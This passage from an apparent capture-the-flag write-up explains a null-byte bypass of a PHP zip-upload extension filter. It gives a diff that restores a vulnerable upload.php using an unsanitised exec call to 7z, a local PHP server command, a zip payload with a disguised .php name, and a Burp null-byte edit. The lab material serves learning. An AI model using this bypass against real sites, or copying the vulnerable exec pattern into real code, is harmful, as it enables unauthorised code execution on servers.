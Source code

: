 Trying to bypass the file extension filtering with a nullbyte does not work.

Side note - This worked when the box was first released, but was patched shortly after. Though as i later learned, it turns out that the patch can also be bypassed. To practice, we can host the old upload.php locally and practice the nullbyte bypass.

Revert the upload.php file using a diff:

```bash
46d45
< 		$tmpDir = sys_get_temp_dir();
56,61c55
<                     $uploadPath = $tmpDir.'/'.$uploadDir;
<                     echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
<                     if (file_exists($uploadPath.$fileName)) {
<                       mkdir($uploadDir);
<                       rename($uploadPath.$fileName, $uploadDir.$fileName);
<                     }
---
>                     echo exec('7z e '.$zipFile. ' -o' .$uploadDir. '>/dev/null');
70d63
<
```

now we can host the site locally with PHP:

```bash
$ php -S 127.0.0.1:8888
```

Then we need to make the payload zip:

```bash
$ echo -n "<?php phpinfo();?>" > "s.phpA.pdf"
$ zip p.zip s.phpA.pdf
```

Intercept the upload POST request and change ‘A’ in the last occurrence of the filename to a nullbyte using the hex view in burp:

![where to change to a nullbyte in burp](Assets/burp_null_byte.jpg)
